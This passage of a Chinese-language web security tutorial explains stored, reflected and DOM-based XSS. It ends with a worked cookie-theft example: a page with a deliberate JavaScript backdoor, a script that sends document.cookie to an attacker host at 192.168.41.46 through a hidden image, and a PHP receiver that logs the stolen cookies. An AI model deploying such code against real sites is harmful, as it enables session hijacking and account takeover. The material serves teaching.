  ##### b. 攻击方式

  * 通过**数据写入点**，将精心构造的XSS代码**保存到数据库**中，当其他用户**再次访问**时，就会**触发并执行**恶意的XSS代码

    ![存储型原理](http://113.45.142.235:9001/laffrex/pictures/存储型原理.png)

  #### (3). DOM型

  ##### a. 定义

  * **不经过后端**，输出点在**DOM**，通过**url传入参数**去控制触发，属于反射型XSS

  ##### b. 攻击方式

  > 1. 攻击者构造**特殊的URL**，其中包含恶意代码，用户点击恶意链接
  > 2. 用户浏览器接收到响应后解析执行，**前端JS取出**URL中的恶意代码**并执行**
  > 3. 恶意代码窃取到用户数据并发送到攻击者的网站，来进行进一步的操作

  #### (4). 区别

  ##### a. 存储型与反射型

  * 存储型XSS的恶意代码在**数据库**，而反射型XSS的恶意代码在**URL里**

  ##### b. DOM型与其他

  * DOM型XSS攻击，取出和执行恶意代码**由浏览器完成**，属于前端**JavaScript自身的安全漏洞**，另外两种属于**服务端的**安全漏洞

  ### 3. 漏洞利用

  #### (1)获取管理权限

  * 通过获取**Cookie**，从而获取管理员权限

  ##### a. 实例

  ```php
  #index.php页面，模拟真实用户的使用，但留有JS后门
  <?php
  if(isset($_POST['submit'])){
      setcookie("name","goodjob");
  }
  ?>
  <html>
  <script type="text/javascript" src="cookie.js"></script>    
  <meta charset="utf-8">
  <form action="#" method="post" id="form1">
      <input type="text" name="username" />
      <input type="password" name="password" />
      <input type="submit" name="submit" value="submit" />
  </form>
  </html>
  
  //cookie.js文件，执行恶意操作(获取到cookie并通过指定url传递出去)
  var img= document.createElement('img');
  img.width= 0;
  img.height= 0;
  img.src='http://192.168.41.46/xss/cookie/cookie.php?cookie=' 
  + encodeURIComponent(document.cookie);
  
  //cookie.php文件，接收cookie.js传递出的数据，并存储在txt文件中
  <?php
  $cookie = $_GET['cookie'];
  $log = fopen('cookie.txt','a');
  fwrite($log,$cookie.PHP_EOL);
  fclose($log);
  ?>
  ```